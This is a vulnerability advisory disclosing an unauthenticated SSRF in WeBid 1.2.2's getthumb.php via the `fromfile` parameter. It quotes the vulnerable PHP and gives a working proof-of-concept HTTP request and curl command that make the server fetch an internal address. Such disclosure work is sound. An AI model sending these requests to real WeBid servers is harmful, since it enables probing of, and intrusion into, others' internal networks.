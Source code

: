 # SSRF vulnerability in `fopen` Function of `getthumb.php` File (WeBid 1.2.2 version)

## 0x01 Affected version

vendor: https://github.com/renlok/WeBid

version: <=1.2.2

php version: 7.x

## 0x02 Vulnerability description

A Server-Side Request Forgery (SSRF) in getthumb.php file of WeBid allows remote attackers to force the application to make arbitrary requests via injection of arbitrary URLs into the `fromfile` parameter and no authorization required.

```php
elseif (!file_exists($_GET['fromfile']) && !fopen($_GET['fromfile'], 'r'))
{
	ErrorPNG($ERR_716);
	exit;
}
```

Because the `fromfile` parameter is unrestricted, it is also possible to use the server side to send requests, such as probing intranet web services. The corresponding PoC is as follows

```
GET /WeBid-1.2.1/getthumb.php?fromfile=http://172.16.119.1/testflag HTTP/1.1
Host: 172.16.119.146
Connection: close
```

You can also use the following curl command to verify the vulnerability

```
curl -i -s -k --location --request GET 'http://172.16.119.146:80/WeBid-1.2.1/getthumb.php?fromfile=http://172.16.119.1/testflag' \
--header 'Connection: close' \
--header 'Host: 172.16.119.146' 
```

![](./media/16638137590308/16638213883564.jpg)

### 0x03 Acknowledgement

z3
